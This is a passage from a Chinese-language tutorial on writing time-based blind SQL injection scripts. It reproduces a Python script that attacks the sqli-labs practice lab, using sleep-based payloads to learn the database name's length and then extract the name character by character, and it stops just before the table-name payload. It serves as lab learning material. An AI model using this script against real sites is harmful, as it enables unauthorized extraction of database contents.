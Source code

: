 根据这个框架 爆出数据库名称后 根据爆出数据库名称 并修改对应的参数和payload接着定义新的爆破函数 

### 延时注入的python脚本编写思路（大概思路）
说实话 延时注入脚本不是很会写 这里转载别人的 参考文章[链接](https://blog.csdn.net/m0_61815757/article/details/124155576?sharetype=blog&shareId=124155576&sharerefer=APP&sharesource=2301_82267803&sharefrom=qq)

**<font style="color:rgb(79, 79, 79);">首先是爆库</font>**

```python
import requests                                  //最关键的requests库，可以好好了解一下
import time                                       //这个也是必要的
chars='，abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_.'//爆破
database=''                                                //把结果加到这个变量里
global length                                                
 
for l in range(1,20):                        //这里有时候range 要大些，因为用了group_concat把结果都放在一行了，可能使长度很大
    url ='http://192.168.1.100/sqli-labs-master/Less-5/' //url自己根据情况改
    close="?id=1'"                                       //闭合方式
    payload1=' and if(length(database())=%s,sleep(2),0) --+' %l       //最关键的地方，和其他注入方法的payload 差不多，只是用了延时的手法
    start_time=time.time()
    r=requests.get(url+close+payload1)
    end_time=time.time()
    sec=end_time-start_time                //算出get请求和sleep后所用的时间
    if  sec >=2:                           //时间符号条件就print并退出
        print('database length is '+str(l))
        global length
        length =l;
        break
    else:
        pass
for i in range (1,length+1):
    for char in chars:
        payload2="and if(substr(database(),%d,1)='%s',sleep(2),1) --+" %(i,char)//substr取每位爆破
        start_time2=time.time()
        r2=requests.get(url+close+payload2)
        end_time2=time.time()
        sec2=(end_time2-start_time2)//也是一样，符合条件就输出
        if sec2 >=2:
            database+=char
            print(database)
            break
print('database_name:',database)
```

**<font style="color:rgb(79, 79, 79);">如果没有过滤可以直接得到数据库名</font>**

<font style="color:rgb(79, 79, 79);">如果要得到表名，脚本和上面差不多，url和close都一样，只需要改一下payload和一些变量名称</font>

<font style="color:rgb(79, 79, 79);">爆破的手法是：爆破长度，爆破名称</font>

<font style="color:rgb(79, 79, 79);"></font>

<font style="color:rgb(79, 79, 79);">爆破表长的</font>[<font style="color:rgb(79, 79, 79);">payload</font>](https://so.csdn.net/so/search?q=payload&spm=1001.2101.3001.7020)<font style="color:rgb(79, 79, 79);">:</font>
